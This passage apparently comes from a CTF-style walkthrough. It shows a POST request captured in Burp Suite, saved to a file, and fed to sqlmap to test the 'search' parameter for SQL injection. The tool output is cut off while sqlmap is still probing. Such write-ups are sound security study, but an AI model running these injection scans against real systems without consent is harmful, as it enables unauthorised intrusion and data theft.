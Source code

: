 ### SQLMAP 
Redirect the HTTP Request to Burpsuite and we can see the request like this.
```
POST / HTTP/1.1
Host: <IP_ADDRESS>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://<IP_ADDRESS>/
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Connection: close
Upgrade-Insecure-Requests: 1

search=help
```
Now Right click and click on `copy to file` option.
```
> $ sqlmap -r search.req --batch --force-ssl
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.3#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 01:25:16 /2020-04-19/

[01:25:16] [INFO] parsing HTTP request from 'search.req'
[01:25:17] [INFO] testing connection to the target URL
[01:25:17] [INFO] checking if the target is protected by some kind of WAF/IPS
[01:25:17] [INFO] testing if the target URL content is stable
[01:25:18] [INFO] target URL content is stable
[01:25:18] [INFO] testing if POST parameter 'search' is dynamic
[01:25:18] [WARNING] POST parameter 'search' does not appear to be dynamic
[01:25:18] [WARNING] heuristic (basic) test shows that POST parameter 'search' might not be injectable
[01:25:19] [INFO] testing for SQL injection on POST parameter 'search'
[01:25:19] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[01:25:20] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[01:25:21] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[01:25:22] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
```


## File Hacking
